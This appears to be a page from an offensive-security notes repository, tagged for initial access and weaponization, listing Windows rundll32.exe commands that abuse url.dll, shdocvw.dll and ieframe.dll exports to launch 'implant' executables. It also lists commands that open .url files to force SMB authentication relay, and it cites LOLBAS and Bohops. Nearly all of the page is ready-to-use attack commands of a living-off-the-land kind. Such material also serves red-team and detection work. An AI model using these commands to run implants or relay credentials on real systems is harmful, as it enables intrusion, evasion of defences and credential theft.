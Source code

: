 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - windows
---
```

# Command Prompt

## 01 - Common Files

```
C:\Windows\system32\cmd.exe
C:\Windows\SysWOW64\cmd.exe
```

## 02 - Execute Implants

> [!INFO] [Character Maximum Limit](https://learn.microsoft.com/en-us/troubleshoot/windows-client/shell-experience/command-line-string-limitation)
> The maximum length of characters in a string is 8192 characters when executing through a command prompt.

Execute commands.

```
C:\> rundll32.exe url.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.exe"

C:\> rundll32.exe url.dll,OpenURL "file://<drive_letter>:/absolute/path/to/implant.exe"

C:\> rundll32.exe url.dll,FileProtocolHandler "<drive_letter>:\absolute\path\to\implant.exe"

C:\> rundll32.exe url.dll,FileProtocolHandler "file:////<drive_letter>:/absolute/path/to/implant.exe"

C:\> rundll32.exe url.dll,OpenURLA "<drive_letter>:\absolute\path\to\implant.exe"

C:\> rundll32.exe shdocvw.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.exe"

C:\> rundll32.exe ieframe.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.exe"
```

Execute command to perform SMB authentication relay.

```
C:\> rundll32.exe url.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.url"

C:\> rundll32.exe url.dll,OpenURL "file://<drive_letter>:/absolute/path/to/implant.url"

C:\> rundll32.exe url.dll,OpenURLA "<drive_letter>:\absolute\path\to\implant.url"

C:\> rundll32.exe url.dll,OpenURLA "file://<drive_letter>:/absolute/path/to/implant.url"
```

---
## References

### LOLBAS

- [LOLBAS: Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)

- [LOLBAS: Url](https://lolbas-project.github.io/lolbas/Libraries/Url/)

### Bohops

- [Bohops: Abusing Exported Functions and Exposed DCOM Interfaces for Pass-Thru Command Execution and Lateral Movement](https://bohops.com/2018/03/17/abusing-exported-functions-and-exposed-dcom-interfaces-for-pass-thru-command-execution-and-lateral-movement/)